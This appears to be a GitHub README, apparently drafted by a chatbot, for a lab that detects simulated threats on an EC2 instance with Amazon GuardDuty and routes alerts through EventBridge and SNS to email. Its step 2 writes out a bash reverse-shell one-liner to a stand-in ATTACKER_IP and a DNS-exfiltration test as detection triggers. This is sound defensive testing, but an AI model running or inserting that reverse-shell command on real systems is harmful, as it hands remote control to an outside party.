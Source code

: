 ```markdown
# 🛡️ AWS GuardDuty Threat Detection Project

## 📌 Project Overview

This project demonstrates how to simulate and detect suspicious behavior on an EC2 instance using **Amazon GuardDuty**, and send real-time alerts to an email via **SNS (Simple Notification Service)**.

You will:
- Deploy an EC2 instance with simulated vulnerabilities
- Enable GuardDuty for threat detection
- Trigger test findings and real behavior (DNS exfiltration, reverse shell)
- Use EventBridge to forward GuardDuty alerts to SNS
- Receive alerts via email

---

## ⚙️ Architecture

```

\[EC2 Instance]
|
Simulated Threat
↓
\[GuardDuty]
↓
\[Amazon EventBridge Rule]
↓
\[Amazon SNS Topic]
↓
\[Email Notification]

````

---

## 🚀 Steps to Deploy

### 1. Launch EC2 Instance
- AMI: Amazon Linux 2 or 2023
- Instance Type: t2.micro
- Enable SSH and optionally HTTP/HTTPS in the Security Group
- Add this User Data (for Java setup):
```bash
#!/bin/bash
dnf install -y java-17-amazon-corretto
````

### 2. Simulate Threats on EC2

SSH into the instance and run:

```bash
# Simulate DNS exfiltration
dig $(uuidgen).yourdomain.com

# Simulate reverse shell (for test only)
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

---

### 3. Enable GuardDuty

* Go to **Amazon GuardDuty** > Enable
* GuardDuty will begin monitoring for suspicious behavior

---

### 4. Create an SNS Topic

* Name: `GuardDutyAlerts`
* Subscribe your email (Confirm via email)

---

### 5. Setup EventBridge Rule

* Service: `aws.guardduty`
* Event type: `GuardDuty Finding`
* Target: SNS Topic `GuardDutyAlerts`

---

### 6. Generate Sample Findings (Optional)

```bash
aws guardduty list-detectors
aws guardduty create-sample-findings --detector-id <detector-id>
```

---

## 📧 Example Alert Email

You’ll receive an email like this when a finding occurs:

```json
{
  "source": "aws.guardduty",
  "detail-type": "GuardDuty Finding",
  "detail": {
    "type": "Recon:EC2/PortScan",
    "severity": 5,
    "resource": {
      "instanceDetails": {
        "instanceId": "i-xxxxxx"
      }
    }
  }
}
```

---

## 🧠 Learnings

* GuardDuty detects behavior, not vulnerabilities
* SNS + EventBridge is ideal for automated alerting
* Simulated attacks help test detection pipelines safely

---

## 📁 Folder Structure

```
.
├── README.md
├── ec2-userdata.sh          # EC2 startup script
├── generate-findings.sh     # AWS CLI script to generate test findings
└── screenshots/             # Optional: add your setup and output images
```

---

## 🛡️ Security Note

> All simulations were conducted in a secure, isolated AWS environment with no real malware or external C2 communication. Never use real attacks in production accounts.

---

## 📚 References

* [AWS GuardDuty Documentation](https://docs.aws.amazon.com/guardduty/)
* [AWS SNS](https://docs.aws.amazon.com/sns/)
* [AWS CLI Guide](https://docs.aws.amazon.com/cli/)

---

## 👨‍💻 Author

**Md Khiruzzaman**
Cloud Engineering Intern
GitHub: [mkovy39](https://github.com/mkovy39)

```

---

Would you like me to generate the folder structure and shell scripts too (`ec2-userdata.sh`, etc.)?
```
